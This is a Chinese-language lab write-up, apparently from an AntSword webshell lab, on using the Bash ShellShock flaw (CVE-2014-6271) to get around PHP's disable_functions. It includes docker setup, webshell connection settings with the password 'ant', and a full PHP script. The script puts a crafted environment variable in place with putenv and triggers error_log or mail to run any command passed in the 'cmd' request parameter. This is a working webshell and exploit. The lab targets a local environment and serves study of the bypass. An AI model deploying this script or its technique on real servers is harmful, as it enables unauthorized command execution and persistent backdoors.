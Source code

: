 ## 02 利用 ShellShock (CVE-2014-6271)

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

### 使用条件

* Linux 操作系统
* `putenv`
* `mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`
* `/bin/bash` 存在 `CVE-2014-6271` 漏洞
* `/bin/sh -> /bin/bash` sh 默认的 shell 是 bash 

###  绕过实验

AntSword >= 2.1.4

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:|:-:
`http://127.0.0.1:18080/index.php` | ant
`http://127.0.0.1:18080/shell.php` | ant

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2019/07/08/5d221a74179c434216.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"NKonQAcRd5DAIcRj","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{"User-Agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 8_0 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A365 MicroMessenger/5.4.1 NetType/WIFI"}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions 2","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562515402313}
```

3. 查看 PHPINFO 验证是 system 等函数已被禁用

![2.png](https://i.loli.net/2019/07/08/5d221a77ee2f022649.png)

4. AntSword 虚拟终端中已经集成了对 ShellShock 的利用, 直接在虚拟终端执行命令即可

![3.png](https://i.loli.net/2019/07/08/5d221a7accb5f56265.png)

**注意1:**

注意看上图中 1 位置的进程树的情况

如果执行命令直接使用 `system` 等执行命令的函数, 进程列表是这样的:

```
www-data   810   684  0 Jul06 ?        00:00:14 /usr/sbin/apache2 -k start
www-data   909   712  0 00:17 ?        00:00:00 sh -c /bin/sh -c "cd "/var/www/html";ps -aef;echo [S];pwd;echo [E]" 2>&1
www-data   910   909  0 00:17 ?        00:00:00 /bin/sh -c cd /var/www/html;ps -aef;echo [S];pwd;echo [E]
www-data   911   910  0 00:17 ?        00:00:00 ps -aef
```

可以明显看出本例中执行命令时, 利用了 PHP `error_log` 函数在执行 `sh -c  -t -i ` 时, Bash 的 ShellShock 漏洞, 从而实现了执行我们自定义命令的目的。 

**注意2:**

执行了 `ls -al /tmp`, 可以看到每次都生成了以 `as` 开头的临时文件, 这就是我们执行完命令之后, 将输出重定向到了临时文件中, 然后再读出来


#### 手动

原理脚本如下:

```
<?php
function runcmd($c){
  $d = dirname($_SERVER["SCRIPT_FILENAME"]);
  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') || function_exists('mail'))){
    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){
      $tmp=tempnam(sys_get_temp_dir(), 'as');
      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
      if (function_exists('error_log')) {
        error_log("a", 1);
      }else{
        mail("a@127.0.0.1", "", "", "-bv");
      }
    }else{
      print("Not vuln (not bash)\n");
    }
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output!=""){
      print($output);
    }else{
      print("No output, or not vuln.");
    }
  }else{
    print("不满足使用条件");
  }
}

// runcmd("whoami"); // 要执行的命令
runcmd($_REQUEST["cmd"]); // ?cmd=whoami
?>
```
